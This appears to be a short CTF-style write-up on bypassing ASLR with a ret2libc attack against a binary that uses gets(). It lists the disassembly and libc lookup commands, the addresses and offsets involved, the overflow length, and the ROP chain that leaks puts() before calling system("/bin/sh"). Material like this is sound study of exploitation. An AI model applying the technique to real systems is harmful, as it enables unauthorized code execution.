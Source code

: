 Bypassing ASLR and performing ret2libc attack.

After decompiling with ghidra, we can see three standard functions : puts, gets, fflush. We will attack puts.

1)Get function addresses in binary:
	# objdump -D executable | grep puts
	We get plt (0x4004e0) and got (0x601018) addresses.
	
2)Get the pop rdi and return address:
	# r2 executable 
	# [0x00400530]> /R pop rdi
	Pop rdi address is (0x004006d3)
	
3)Get address of main()
	# objdump -D executable | grep main
	Address is (0x400626)
	
4)Now find offset of puts, system, /bin/bash in libc
	#readelf -s /lib/x86_64-linux-gnu/libc-2.27.so | grep puts
	#readelf -s /lib/x86_64-linux-gnu/libc-2.27.so | grep system
	#strings -a -t x /lib/x86_64-linux-gnu/libc-2.27.so | grep /bin/sh 
	We got : 0x809c0, 0x4f440 and 0x1b3e9a

5) Overflow occurs when more than 71 bytes sent.

6) We send junk, pop rdi addr, then got addr of puts() and print the puts() address in libc by calling(jumping to) plt puts() and returning to main.

7) Leaked puts:0x7f9518d089c0

8) Use this address to calculate offsets, and calculate addresses of system(0 and /bin/sh in libc.
